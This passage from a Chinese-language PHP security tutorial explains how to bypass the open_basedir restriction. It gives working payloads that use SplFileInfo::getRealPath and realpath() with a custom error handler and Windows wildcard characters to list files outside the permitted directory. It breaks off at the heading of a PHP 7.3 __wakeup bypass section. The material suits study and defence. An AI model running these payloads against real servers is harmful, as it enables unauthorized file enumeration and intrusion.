 
(PHP 5 >= 5.2.2, PHP 7)

SplFileInfo::getRealPath类方法是用于获取文件的绝对路径。

和bindtextdomain的原理一样，是基于报错的方式，返回结果都是一样的，就不再多演示，这里直接给出payload：

```php
<?php
echo '<b>open_basedir: ' . ini_get('open_basedir') . '</b><br />';
$info = new SplFileInfo($_GET['dir']);
var_dump($info->getRealPath());
?>
```

### 利用realpath()函数Bypass

(PHP 4, PHP 5, PHP 7)

realpath — 返回规范化的绝对路径名。它可以去掉多余的../或./等跳转字符，能将相对路径转换成绝对路径。

函数定义如下：

```php
realpath ( string $path ) : string
```

环境条件：Windows

基本原理是基于报错返回内容的不用，设置自定义的错误处理函数，循环遍历匹配到正则的报错信息的字符来逐个拼接成存在的文件名，另外是需要结合利用Windows下的两个特殊的通配符<和>，不然只能进行暴破。

payload：

```php
<?php
ini_set('open_basedir', dirname(__FILE__));
printf("<b>open_basedir: %s</b><br />", ini_get('open_basedir'));
set_error_handler('isexists');
$dir = 'E:/wamp64/';
$file = '';
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789_';
for ($i=0; $i < strlen($chars); $i++) {
        $file = $dir . $chars[$i] . '<><';
        realpath($file);
}
function isexists($errno, $errstr)
{
        $regexp = '/File\((.*)\) is not within/';
        preg_match($regexp, $errstr, $matches);
        if (isset($matches[1])) {
                printf("%s <br/>", $matches[1]);
        }
}
?>
```

可以看到，首字母不同的文件就被列出来了，首字母相同的文件中只列了第一个：

![img](https://img.siren.blue/img/Bypass-open-basedir10.png)

## php7.3.x wakeup绕过

```py
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2023-03-24 10:16:33
# @Last Modified by:   h1xa
```